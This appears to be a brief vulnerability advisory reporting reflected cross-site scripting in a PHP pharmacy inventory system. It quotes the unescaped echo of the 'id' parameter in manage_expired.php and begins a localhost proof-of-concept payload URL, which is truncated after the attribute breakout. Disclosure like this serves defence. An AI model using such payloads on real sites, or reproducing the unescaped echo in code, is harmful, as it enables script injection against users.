


# Pharmacy Sales and Inventory System using PHP/MySQL with Source Code - XSS

environment

[https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html](https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html "https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html")

# XSS

In pharmacy/manage\_expired.php, it was found that `<?php echo isset($_GET['id']) ? $_GET['id'] : '' ?>` directly echoes the value of '**id**'.

Construct the XSS payload
`http://127.0.0.1/manage_expired.php?id=11111"><`

